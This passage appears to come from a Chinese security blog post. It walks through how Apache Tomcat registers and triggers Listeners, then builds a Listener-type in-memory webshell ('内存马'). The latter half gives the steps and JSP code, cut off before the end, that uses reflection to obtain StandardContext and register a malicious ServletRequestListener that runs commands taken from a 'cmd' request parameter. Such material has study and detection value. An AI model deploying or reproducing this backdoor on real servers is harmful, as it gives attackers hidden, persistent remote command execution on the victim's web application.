 ![](https://img-blog.csdnimg.cn/d165d43261cf4edcbdae713101dbec45.png)
继续往下，发现会遍历results中的Listener，根据不同的类型放入不同的数组，我们这里的ServletRequestListener放入eventListeners数组中
![](https://img-blog.csdnimg.cn/6e9529cadb394e62ad580e8a3b1e89b6.png)

然后通过调用`getApplicationEventListeners()`获取`applicationEventListenersList`中的值
![](https://img-blog.csdnimg.cn/76812f12a6064565b7b024b81f57e389.png)

最后调用`setApplicationEventListeners`对applicationEventListenersList进行设置
![](https://img-blog.csdnimg.cn/d3339aac96e74049adf930d880febb4c.png)
至此 listenerStart 函数的主要部分就结束了

>在前面的函数部分我们知道了 listenerStart() 将我们的 Listener 实例化添加到了 applicationEventListenersList 中，那么只存进去是不可能触发的，我们的 Listener 需要触发肯定需要一个函数点来调用

跟一下第二个断点
根据调用堆栈我们找到了`fireRequestInitEvent()`方法
看到调用了`listener.requestInitialized(event)`，而这个 listener 就是我们设置的 Listener 实例，可以看到是通过遍历 instances 数组获取，而 instances 数组就是通过 getApplicationEventListeners 方法来进行获取的值
![](https://img-blog.csdnimg.cn/0a6a7cf564944f929d2e680e0b996638.png)
#### jsp内存马
根据上面的分析我们知道Listener来源于tomcat初始化时web.xml实例化的Listener和`applicationEventListenersList`中的Listener，前者我们无法控制，但是后者我们可以控制，只需要往`applicationEventListenersList`中加入我们的恶意Listener即可

**Listener内存马实现步骤：**
1. 获取StandardContext
2. 创建恶意Listener
3. 调用StandardContext.addApplicationEventListener()添加恶意Listener


最后的jsp内存马如下：
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    ServletRequestListener servletRequestListener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

        }

        @Override
        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
            if (cmd != null) {
                try {
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
```